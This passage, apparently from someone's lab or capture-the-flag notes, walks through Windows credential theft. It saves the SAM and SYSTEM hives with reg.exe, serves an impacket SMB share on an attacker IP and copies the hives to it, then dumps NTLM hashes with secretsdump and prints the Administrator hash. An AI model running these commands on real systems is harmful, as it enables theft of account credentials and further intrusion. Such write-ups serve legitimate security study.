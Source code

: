 cleaning up 
`del "C:\Program Files (x86)\System Explorer\System.exe"`
`sc start SystemExplorerHelpService`

in windows the hashes are saved at: `C:\Windows\System32\Config\SAM` but not accessible when computer is running so 

saving the hashes of SAM and System hive 
`reg.exe save HKLM\SAM sam.bak`
`reg.exe save HKLM\SYSTEM system.bak`

![[Screenshot 2021-05-01 at 5.20.42 PM.png]]


to transfer the files using 
`sudo impacket-smbserver share . -smb2support -username sp00f -password Passw0rd!`
![[Screenshot 2021-05-01 at 5.49.14 PM.png]]

and now in the windows box we have to authenticate the user for sharing 

`net use \\10.50.90.103\sp00f /USER:sp00f Passw0rd!`

![[Screenshot 2021-05-01 at 5.49.48 PM.png]]

and using the command `copy * \\10.50.90.103\sp00f` we shared all the files

![[Screenshot 2021-05-01 at 5.52.09 PM.png]]

cleaning up 

![[Screenshot 2021-05-01 at 5.53.26 PM.png]]

### hash cracking

and using impacket only we can crack the hashes using

`impacket-secretsdump -sam sam.bak -system system.bak LOCAL`

![[Screenshot 2021-05-01 at 5.58.21 PM.png]]

```bash
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
```

Admin hash
`Administrator:a05c3c807ceeb48c47252568da284cd2

